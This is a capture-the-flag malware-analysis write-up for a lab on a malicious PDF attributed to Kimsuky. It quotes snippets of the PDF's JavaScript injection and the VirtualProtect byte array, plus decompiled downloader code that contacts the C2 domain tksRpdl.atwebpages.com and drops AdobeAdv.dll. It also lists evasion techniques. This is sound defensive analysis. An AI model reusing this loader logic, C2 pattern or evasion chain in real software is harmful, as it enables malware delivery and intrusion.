

# ProPDF Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/propdf/](https://cyberdefenders.org/blueteam-ctf-challenges/propdf/)

Suggested tools: PDFwalker, VsCode, HexEditor, CyberChef, Ghidra

Tactics: Execution, Privilege Escalation, Stealth, Command and Control

# Scenario

Recent alerts highlight targeted attacks using suspicious PDF files, potentially orchestrated by groups associated with North Korea. Documents, largely themed around North-South Korea relations, suggest they are targeting specific geopolitical stakeholders.

Your task is to analyze one of these suspicious PDFs. Initial hints suggest that the known Kimsuky or Thallium APT groups might be involved. Your findings will help confirm this and prevent more attacks.

# Questions

Q1- This PDF seems to trigger unexpected system actions when opened. Could you provide the object number that contains the malicious code?

Answer: 89

Reason: The PDF's `Names` tree registers an auto-run JavaScript action, whose `JS` key in the `JavaScript` object resolves via indirect reference `89 0 R` to object `89`, a `FlateDecode`-compressed stream (`/Length 86848`) containing the actual obfuscated script, confirmed by the decompressed JavaScript visible in the PDF Code panel starting with `var B = {k:f(1),d: function (_i)...` .



## PDF Forensic Structure 101

A PDF isn't really a "document" — it's a small database of numbered objects, some of which say "when this file opens, run this." A forensic viewer like PDFwalker lets you see that object graph directly instead of just the rendered page, which is where anything suspicious (auto-run scripts, hidden attachments, edit history) actually lives.

## What PDFwalker Shows You

| Concept | What it is | Why you'd look at it |
| --- | --- | --- |
| Objects | Numbered blocks (`N G obj ... endobj`) — the atoms of the file | Everything else is just these linked together |
| Indirect References | `N G R` inside a dictionary — "the real content lives in object N" | A key like `/JS` pointing to `89 0 R` means you have to jump to object 89, not read it inline |
| Trailer → Catalog | The Trailer points to the Catalog (the file's root object) | Starting point for any manual walk — Catalog's keys tell you what the file *does*, not just what it shows |
| Streams | Raw data attached to a dictionary (text, JS, images, embedded files) | Usually FlateDecode-compressed; PDFwalker auto-decompresses on click, manual tools (`pdf-parser.py`, `qpdf --qdf`) don't |
| Revisions | PDFwalker shows "Revision 1/2/3" when the file has been incrementally updated | Multiple revisions on a file that should be simple is a tampering/timeline signal worth noting even unprompted |

## Where to Look for Auto-Run Behavior

Check in this order — each is a separate, independent trigger:

1. **`/OpenAction`** on the Catalog — runs immediately on open.
2. **`/Names` → `/JavaScript`** name tree — registers scripts that auto-run on open, independent of `/OpenAction`.
3. **`/AA`** (Additional Actions) on the Catalog or an annotation — fires on specific events (page open/close, field change), not document-open itself.
4. User-triggered action on a button/annotation — requires interaction, least stealthy.

## Embedded Files

A `FileSpec` object with an `EF` (Embedded File) dictionary carries an attachment as a stream; `F` is the filename, `UF` is the Unicode filename. Check this even when the primary payload is JS — both mechanisms can exist in the same file.

Q2- The analysis of the extracted malicious code reveals an additional procedure within the PDF, What specific API is utilized to embed this secondary malicious code?

Answer: `addScript`

Reason: Object `89`'s decoded JavaScript closes with `this.addScript("ss", B.d(pst)); this.removeScript("ss"); } aa(); this, removeScript("asd");` — the `pst` variable (the Base64-encoded array you decoded into the PE payload) is passed through `B.d()` and injected as a new named document script (`"ss"`) via `addScript`, then immediately removed with `removeScript` once executed, so the payload only exists transiently at runtime rather than as a static object a scanner could flag.

```bash
# Towards the end of the decoded main JS script in obj 89
[...]
this.addScript("ss", B.d(pst)); this.removeScript("ss"); } aa(); this, removeScript("asd");
```

Q3- Upon analyzing the scripts, it appears that it was actively carrying out malicious operations. The script uses a method to alter memory permissions. What is the Windows API function name?

Answer: `VirtualProtect`

Reason: Running the safely-neutered `aa()` function (with `addScript`/`removeScript` stripped and replaced by `return B.d(pst);`) in Node via VSCode's integrated terminal (`node js > js_output`) decoded the second-stage script, revealing a `fN` variable: `var fN = new Uint8Array([86, 105, 114, 116, 117, 97, 108, 80, 114, 111, 116, 101, 99, 116, 0]);`. Decoding that decimal byte array in CyberChef (`From Decimal`, comma delimiter) resolves to the ASCII string `VirtualProtect`, the Windows API used to change a memory region's protection flags (e.g. to make a written payload executable) as part of the script's in-memory execution chain.

```bash
# Running the main JS safely in VSCode
[...]pOycsIDQ1MDApOw"; return B.d(pst);}
console.log(aa());

$ node js > js_output
# From decimal using CyberChef, comma as delimiter
var fN = new Uint8Array([86, 105, 114, 116, 117, 97, 108, 80, 114, 111, 116, 101, 99, 116, 0]);
VirtualProtect
```

Q4- We are attempting to identify the specific malicious payload. Could you provide the SHA256 hash of the code injected into the memory generated from the second stage? To determine its origins and any potential connections to other known threats. 

Answer: `6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32`

Reason: The second-stage decoded output's `s` variable (`var s = new Uint32Array([0x4d, 0x5a, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00, 0x04, 0x00, ...0x00]);`) was converted in CyberChef (`From Hex`, delimiter auto-detected as `0x with comma`), producing an `MZ`-header PE binary with the visible `program cannot be run in DOS mode.` DOS stub string, confirming this is the in-memory payload referenced by `VirtualProtect`. Saved as `Artifacts/bin` and hashed, this produced `6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32` — the same SHA256 as the payload extracted from object 89 directly, confirming the second stage re-injects the identical PE already identified in Q1/Q2 (VirusTotal: 57/71 malicious, family `apost`/`xzei`/`kimsuky`, Thallium C2 / DPRK threat actor IDS matches).

```bash
# In the same output script from the neutered aa()
var s = new Uint32Array([0x4d, 0x5a [...] 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]);

# Save as bin
ubuntu@ip-172-31-26-51:~/Desktop/Start here$ sha256sum Artifacts/bin 
6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32  Artifacts/bin
```


Q5- The malicious executable connects with a C2 server to download another stage. What is the C2 server name?

Answer: `tksrpdl[.]atwebpages[.]com`

Reason: VirusTotal's Activity Summary for the payload (SHA256 `6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32`) lists its DNS Resolutions, showing `tksrpdl.atwebpages.com` alongside the benign Microsoft telemetry domain `query.prod.cms.rt.microsoft.com`. The `atwebpages.com` domain is a free hosting subdomain service, a pattern commonly abused by Kimsuky/Thallium for disposable C2 infrastructure, consistent with the earlier Thallium CnC Domain IDS match.


Q6- After the malware connects with the C2 server, it downloads a file onto the disk. What is the name of the downloaded file on the disk?

Answer: `AdobeAdv.dll`

Reason: In `FUN_00401591`, the destination path is built via `SHGetSpecialFolderPathA` + `lstrcatA(local_108, "\\adobe")`, then `wsprintfA(&DAT_00414200, "%s\\%s", local_108, "AdobeAdv.dll")`, giving a full path of `%APPDATA%\adobe\AdobeAdv.dll` stored at `DAT_00414200`. That path is passed into `FUN_0040166e`, where the WinINet chain (`InternetOpenA` → `InternetConnectA` to `tksRpdl.atwebpages.com`) downloads data and writes it to disk via `(*DAT_004141e8)(&DAT_00414200)` (DeleteFileA, clearing any prior copy) followed by `(*DAT_004141ec)(&DAT_00414200, ...)` (CreateFileA) and `(*DAT_004141e4)(local_2c, _Memory, local_20[0], local_20, 0)` (WriteFile), confirming the C2-delivered content is saved to disk as `AdobeAdv.dll`.

In `FUN_0040166e`, the sequence that ties the C2 connection to the dropped `AdobeAdv.dll` file is:

1. `(*DAT_004141d8)("Mozilla/5.0",0,0,0,0)` — `InternetOpenA`, initializes a WinINet session.
2. `(*DAT_004141d4)(local_38,"tksRpdl.atwebpages.com",0,0,0,3,0,0)` — `InternetConnectA`, opens the connection to the C2 domain.
3. `(*DAT_004141c4)(iVar2,_Memory,local_24,&local_28)` — this one reads data from that connection into a buffer (`_Memory`) — `InternetReadFile`, pulling the downloaded bytes over the established connection.
4. `(*DAT_004141e8)(&DAT_00414200)` — `DeleteFileA`, clears any pre-existing file at that path.
5. `(*DAT_004141ec)(&DAT_00414200,0x40000000,0,0,2,0,0)` — `CreateFileA`, creates/opens `AdobeAdv.dll` on disk for writing.
6. `(*DAT_004141e4)(local_2c,_Memory,local_20[0],local_20,0)` — `WriteFile`, writes the downloaded bytes (from step 3's buffer) into the newly created file handle.
7. `(*DAT_004141e0)(pHVar1)` — `CloseHandle`, closes the file handle.

So the connection (`InternetOpenA`/`InternetConnectA`) and the file-write (`CreateFileA`/`WriteFile`) are separate API families — WinINet handles the network side, the Kernel32 trio (`DeleteFileA`/`CreateFileA`/`WriteFile`) handles the disk side — and they're bridged by the shared `_Memory` buffer that step 3 reads into and step 6 writes out from.

```bash
  local_38 = (*DAT_004141d8)("Mozilla/5.0",0,0,0,0);
  if ((local_38 != 0) &&
     (iVar2 = (*DAT_004141d4)(local_38,"tksRpdl.atwebpages.com",0,0,0,3,0,0), local_34 = iVar2,
     iVar2 != 0)) {
    _memset(local_258,0,0x208);

      local_20[0] = 0;
      iVar3 = (*DAT_004141c4)(iVar2,_Memory,local_24,&local_28);
      if (iVar3 == 0) goto LAB_004017cc;

          (*DAT_004141e8)(&DAT_00414200);
          local_2c = (HMODULE)(*DAT_004141ec)(&DAT_00414200,0x40000000,0,0,2,0,0);
          GetLastError

            }
            (*DAT_004141e4)(local_2c,_Memory,local_20[0],local_20,0);
            (*DAT_004141e0)(pHVar1);
            Sleep(100);
# Trace from:
FUN_00401a09 (CRT entry/startup, compiler-generated)
  └── FUN_004018f8 (orchestrator: resolve APIs, spawn worker thread)
        └── FUN_00401591 (thread: build %APPDATA%\adobe\AdobeAdv.dll path, retry-loop C2 download)
              └── FUN_0040166e (WinINet: InternetOpenA/InternetConnectA → tksrpdl.atwebpages.com)

```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| N/A | Initial Access | Malicious PDF `pay.pdf` delivered as attachment, themed around North-South Korea relations per lab brief. | `T1566.001` |
| N/A | Execution | PDF's `Names` name tree auto-runs JavaScript on open; the `JS` key resolves via indirect reference `89 0 R` to a `FlateDecode` stream containing obfuscated JS. | `T1203` |
| N/A | Defense Evasion | First-stage JS Base64-decodes a `Uint32Array` byte list into a PE binary (`MZ` header confirmed), then injects a second-stage script at runtime via `this.addScript("ss", B.d(pst))` and immediately deletes it with `this.removeScript("ss")`, leaving no static trace. | `T1027`, `T1140` |
| N/A | Privilege Escalation / Stealth | Second-stage script calls `VirtualProtect` to alter memory permissions on the decoded PE payload, enabling in-memory code execution without writing to disk first. | `T1620` |
| N/A | Defense Evasion | Dropped PE (`bin`, SHA256 `6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32`) resolves Kernel32 and WinINet APIs dynamically at runtime via `LoadLibraryA`/`GetProcAddress` (`FUN_00401260`, `FUN_004012e7`) instead of static imports, hiding them from import-table scanning. | `T1027.007` |
| N/A | Command and Control | Worker thread (`FUN_00401591`) connects to C2 domain `tksrpdl[.]atwebpages[.]com` via `InternetOpenA` → `InternetConnectA` → `InternetReadFile`, retrying on a randomized `Sleep` interval until successful. | `T1071.001` |
| N/A | Ingress Tool Transfer | Downloaded data is written to disk as `%APPDATA%\adobe\AdobeAdv.dll` via `DeleteFileA` → `CreateFileA` → `WriteFile` → `CloseHandle`. | `T1105` |

## Attack Tree

```bash
[PDF Delivery]  attacker → target
    └── pay.pdf opened
        └── [Stage 1 — Execution]
            └── Names/JavaScript auto-run triggers object 89 (FlateDecode stream)
                └── Base64 + hex-array decode reveals embedded PE (MZ header)
                    └── [Stage 2 — Defense Evasion]
                        └── this.addScript("ss", B.d(pst)) injects second-stage JS at runtime
                            └── this.removeScript("ss") deletes trace immediately after execution
                                ├── [Stage 3 — Stealth]
                                │   └── VirtualProtect alters memory permissions on decoded PE
                                │       └── PE executes in memory
                                │           └── [Stage 4 — Dynamic API Resolution]
                                │               ├── FUN_00401260: LoadLibraryA("Kernel32.dll") + GetProcAddress → CreateDirectoryA, CreateFileA, DeleteFileA, WriteFile, CloseHandle, CreateProcessA, CopyFileA, CreateThread, GetShortPathNameA
                                │               └── FUN_004012e7: WinINet resolver → InternetOpenA, InternetConnectA, InternetReadFile
                                │                   └── CreateThread spawns FUN_00401591
                                │                       └── [Stage 5 — Command and Control]
                                │                           └── InternetOpenA("Mozilla/5.0") → InternetConnectA("tksRpdl.atwebpages.com")
                                │                               └── InternetReadFile reads payload into _Memory buffer
                                │                                   └── [Stage 6 — Ingress Tool Transfer]
                                │                                       └── DeleteFileA → CreateFileA → WriteFile → CloseHandle
                                │                                           └── %APPDATA%\adobe\AdobeAdv.dll written to disk
                                └── retry loop (Sleep randomized 50-59 min) until FUN_0040166e returns 1
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | File | `pay.pdf` (PDF v1.6, FlateDecode) |
|  | Malicious object | Object `89` (JavaScript stream, `FlateDecode`, `Length 86848`) |
| Execution Mechanism | Trigger | `Names` → `JavaScript` name tree, auto-run on open |
|  | Runtime injection API | `addScript` / `removeScript` |
| Payload | Extracted file | `bin` |
|  | SHA256 | `6f5068784fc1635daddcfa447082098fa960e32b00906898bc0c4ed921d72b32` |
|  | Threat family | `apost` / `xzei` / `kimsuky` |
|  | VT detection | `57/71` vendors flagged malicious |
| Memory Manipulation | API | `VirtualProtect` |
| Dynamic API Resolution | Resolver | `LoadLibraryA` + `GetProcAddress` (`FUN_00401260`, `FUN_004012e7`) |
|  | Kernel32 APIs | `CreateDirectoryA`, `CreateFileA`, `DeleteFileA`, `WriteFile`, `CloseHandle`, `CreateProcessA`, `CopyFileA`, `CreateThread`, `GetShortPathNameA` |
|  | WinINet APIs | `InternetOpenA`, `InternetConnectA`, `InternetReadFile` |
| Network | C2 domain | `tksrpdl[.]atwebpages[.]com` |
|  | User-Agent | `Mozilla/5.0` |
| Dropped File | Path | `%APPDATA%\adobe\AdobeAdv.dll` |

# Lab Insights

- **Static detection is designed around, not just missed:** this sample never relies on a single evasion trick — compressed JS inside the PDF object stream, Base64-wrapped byte arrays instead of raw shellcode, runtime `addScript`/`removeScript` injection, and dynamic `GetProcAddress` API resolution all serve the same purpose of denying static tools (import tables, string scanners, PDF object inspectors) a stable signature to match against. Each layer defeats a different class of scanner.
- **Execution and disk-write are separate concerns, bridged deliberately:** the WinINet network calls and the Kernel32 file-write calls never touch the same API family, yet they're tied together through a single shared buffer (`_Memory`). Recognizing that handoff point was the key to tracing C2 traffic forward into a concrete dropped-file artifact, rather than treating "network stage" and "disk stage" as independent findings.
- **The CRT startup noise is a map, not a maze:** tracing callers backward from the C2 logic led straight through compiler-generated boilerplate (`___scrt_initialize_crt`, `__initterm_e`, etc.) to a single orchestrator function. Recognizing standard MSVC startup code let the real attacker logic (`FUN_004018f8` onward) be isolated quickly instead of being lost in noise that every PE binary contains.